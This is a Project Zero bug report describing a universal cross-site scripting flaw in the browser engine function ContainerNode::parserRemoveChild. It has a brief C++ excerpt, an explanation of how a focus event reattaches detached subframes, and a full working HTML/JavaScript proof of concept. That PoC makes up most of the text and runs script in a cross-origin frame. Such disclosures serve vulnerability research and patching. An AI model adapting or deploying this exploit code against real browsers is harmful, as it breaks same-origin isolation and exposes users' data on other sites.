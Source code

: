 # UXSS via ContainerNode::parserRemoveChild (2)

### Reported by lokihardt@google.com, Feb 17 2017

Here's a snippet of `ContainerNode::parserRemoveChild`.

```cpp
void ContainerNode::parserRemoveChild(Node& oldChild)
{
    disconnectSubframesIfNeeded(*this, DescendantsOnly); <<---- (a)
    ...
    document().notifyRemovePendingSheetIfNeeded(); <<---- (b)
}
```

subframes are detached at (a). But In `notifyRemovePendingSheetIfNeeded`| at (b), which fires a focus event, we can attach subframes again.

PoC:

```html
<html>

<body>
  <script>
    let xml =
      `
<body>
    <div>
        <b>
            <p>
                <script>
                let p = document.querySelector('p');
                let link = p.appendChild(document.createElement('link'));
                link.rel = 'stylesheet';
                link.href = 'data:,aaaaazxczxczzxzcz';

                let btn = document.body.appendChild(document.createElement('button'));
                btn.id = 'btn';
                btn.onfocus = () => {
                    btn.onfocus = null;

                    window.d = document.querySelector('div');
                    window.d.remove();

                    link.remove();
                    document.body.appendChild(p);

                    let m = p.appendChild(document.createElement('iframe'));
                    setTimeout(() => {
                        document.documentElement.innerHTML = '';

                        m.onload = () => {
                            m.onload = null;

                            m.src = 'javascript:alert(location);';
                            var xml = \`
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(parent.d);
</sc\` + \`ript>
<element a="1" a="2" />
</svg>\`;

                            var tmp = document.documentElement.appendChild(document.createElement('iframe'));
                            tmp.src = URL.createObjectURL(new Blob([xml], {type: 'text/xml'}));
                        };
                        m.src = 'https://abc.xyz/';
                    }, 0);
                };

                location.hash = 'btn';
                </scrip` +
      `t>
            </b>
        </p>
    </div>
</body>`

    let tf = document.body.appendChild(document.createElement('iframe'))
    tf.src = URL.createObjectURL(
      new Blob([xml], {
        type: 'text/html'
      })
    )
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1134
